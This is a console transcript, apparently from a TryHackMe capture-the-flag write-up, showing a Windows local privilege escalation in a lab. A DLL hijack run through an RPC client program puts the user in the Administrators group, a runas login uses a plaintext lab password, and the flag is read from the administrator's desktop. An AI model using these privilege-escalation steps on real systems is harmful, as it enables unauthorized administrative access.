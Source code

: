 ```
[+] SMB Close File success
[+] SMB Tree Disconnect success

C:\Users\user\Desktop>RpcClient.exe
[+] Dll hijack triggered!

C:\Users\user\Desktop>net user user
User name                    user
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/16/2023 4:28:10 PM
Password expires             3/30/2023 4:28:10 PM
Password changeable          2/16/2023 4:28:10 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   3/6/2023 9:12:47 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Desktop Users
                             *Users
Global Group memberships     *None
The command completed successfully.

C:\Users\user\Desktop>runas /user:user cmd.exe
Enter the password for user:
Attempting to start cmd.exe as user "LP\user" ...

---

just open cmd with privileges (More options choose user and pass Password123)

Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
lp\user

C:\Windows\system32>type "C:\users\administrator\desktop\flag.txt"
THM{local_potatoes_best_potatoes}

```
